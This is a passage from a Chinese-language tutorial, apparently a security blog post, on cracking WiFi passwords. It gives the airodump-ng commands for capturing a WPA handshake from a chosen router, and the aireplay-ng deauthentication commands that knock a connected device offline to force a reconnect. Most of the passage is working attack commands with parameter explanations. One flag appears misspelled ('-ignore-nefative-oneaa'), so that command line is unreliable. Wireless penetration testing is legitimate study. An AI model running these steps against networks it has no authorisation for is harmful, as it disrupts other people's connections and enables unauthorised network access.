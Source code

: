 输入以下命令

```bash
airodump-ng -w freedom -c 1 --bssid 48:2C:A0:F2:BF:D0 wlan0mon -ignore-nefative-oneaa
```

其中命令参数为

\-c：指定信道  
\-w：指定抓去握手包的存放位置或者名字，freedom 是一会抓去的握手包的名字  
–bssid：指定路由器的 MAC

需要更改两个参数，信道和地址，这两个参数分别是扫描 wifi 时确定要破解的 wifi 参数

[![image.png](assets/1698893928-8d128cf0deaaf7da25d5b52fcd707643.png)](https://storage.tttang.com/media/attachment/2023/04/23/7612b111-45a6-407a-8138-8d8fa8fef712.png)

执行之后会到以下界面

[![image.png](assets/1698893928-d5a3e444a9a1fd0a8bce96c650609dfc.png)](https://storage.tttang.com/media/attachment/2023/04/23/cda491a7-4546-4b82-829e-269f410aa6c8.png)

如果没连接的设备，就没办法接着往下的步骤了，所以这块还是比较看缘分的，从数据中看出有一台设备在连接，然后接着把这个用户踢下线，然后监听他重新连接的握手包，运行以下命令

```bash
aireplay-ng -0 2 -a 48:2C:A0:F2:BF:D0 -c 0A:FD:D4:19:1A:04 wlan0mon
aireplay-ng -0 2 -a（wifi 的 mac） -c（连接设备的 mac）wlan0mon
```
